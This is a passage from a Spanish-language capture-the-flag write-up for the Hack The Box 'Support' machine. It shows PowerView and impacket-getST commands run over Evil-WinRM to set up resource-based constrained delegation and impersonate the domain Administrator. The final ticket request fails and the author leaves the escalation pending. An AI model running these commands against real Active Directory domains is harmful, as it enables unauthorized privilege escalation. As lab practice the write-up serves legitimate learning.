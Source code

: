 Y simplemente seguimos los pasos, nos descargamos [Powerview.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1):

```bash wrap=false
*Evil-WinRM* PS C:\Users\support\Documents> upload ./exploits/PowerView.ps1
                                        
Info: Uploading /home/zelpro/HTB/Support/exploits/PowerView.ps1 to C:\Users\support\Documents\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer SERVICEA -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
 
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer SERVICEA | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer SERVICEA -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

Una vez hecho esto, siguiendo la guía de este [repo](https://github.com/tothi/rbcd-attack), usaremos `impacket-getST` para poder impresonarnos como admin:

```bash wrap=false
❯ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/SERVICEA$:123456

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user SERVICEA$ or initial TGT not forwardable
```

Me da este error, por lo que la dejaremos en pendiente la escalada.

---